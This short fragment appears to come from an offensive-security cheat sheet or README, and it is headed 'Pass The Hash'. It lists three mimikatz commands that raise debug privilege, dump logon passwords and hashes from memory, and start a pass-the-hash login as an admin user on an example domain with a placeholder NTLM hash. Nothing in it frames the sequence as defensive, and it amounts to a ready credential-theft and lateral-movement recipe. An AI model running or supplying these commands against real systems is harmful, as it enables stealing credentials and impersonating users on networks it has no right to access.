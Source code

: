**Pass The Hash**

mimikatz# privilege::debug

mimikatz# sekurlsa::logonpasswords

mimikatz# sekurlsa::pth /user:admin /domain:xyz.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxx

![](images/PassTheHash.png) <br />
